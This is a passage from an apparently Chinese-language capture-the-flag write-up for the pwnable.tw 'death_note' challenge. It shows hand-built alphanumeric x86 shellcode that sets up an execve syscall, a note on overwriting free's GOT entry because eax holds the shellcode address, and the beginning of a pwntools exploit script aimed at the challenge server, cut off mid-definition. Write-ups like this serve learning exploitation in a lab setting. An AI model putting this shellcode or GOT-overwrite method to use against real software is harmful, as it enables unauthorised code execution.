 ```python
    sub byte ptr[eax + 0x31] , dl
    push 0x3e3e3e3e
    pop edx
    sub byte ptr[eax + 0x31] , dl
    /*set zero to edx*/
    and cl, byte ptr[eax + 0x33]
    push ecx
    pop edx
   /*set 0x0b to eax*/
    push edx
    pop eax
    xor al, 0x40
    xor al, 0x4b    
'''
sc = asm(shellcode) + "\x6b\x40\x20"
```

上面是最后写好的shellcode。

在进行解码的时候很重要的是要拿到shellcode的起始地址，其实在进行到shellcode的跳转之前都会将shellcode的起始地址保存在一个寄存器中，仔细观察。这道题之所以选择将覆盖free函数的got就是因为，在free函数执行前将shellcode的起始地址保存到了eax中很方便利用。

#### EXP:

```python
#coding=utf-8
from pwn import *
local = 0
exec_file="./death_note"
context.binary=exec_file
context.terminal=["tmux","splitw","-h"]
elf=ELF(exec_file,checksec = True)
#argv=["/home/jlx/glibc-all-in-one/libs/2.23-0ubuntu11.2_i386/ld-2.23.so",
#           "--library-path","/home/jlx/glibc-all-in-one/libs/2.23-0ubuntu11.2_i386/","./death_note"]
if local :
    a=process(exec_file)
    if context.arch == "i386" :
        libc=ELF("/lib/i386-linux-gnu/libc.so.6",checksec = False)
    elif context.arch == "amd64" :
        libc=ELF("/lib/x86_64-linux-gnu/libc.so.6",checksec = False) 
else:
    a=remote("chall.pwnable.tw",10201)
    #libc=ELF("./libc.so.6")
def get_base(a):
    print a.libs()
    text_base = a.libs()[a._cwd+a.argv[0].strip('.')]
    #text_base = a.libs()[a._cwd + "/death_note"]
    for key in a.libs():
        if "libc-2.31.so" in key:
            return text_base,a.libs()[key]
def debug():
    text_base,libc_base=get_base(a)
    script="set $text_base="+str(text_base)+'\n'+"set $libc_base="+str(libc_base)+'\n'
    script+='''
    b *0x080487EF
    b *0x08048873
    '''
    gdb.attach(a,script)
def fuck(address):
    n = globals()
    for key,value in n.items():
        if value == address:
            return success(key+"  ==>  "+hex(address))
def menu(idx):
```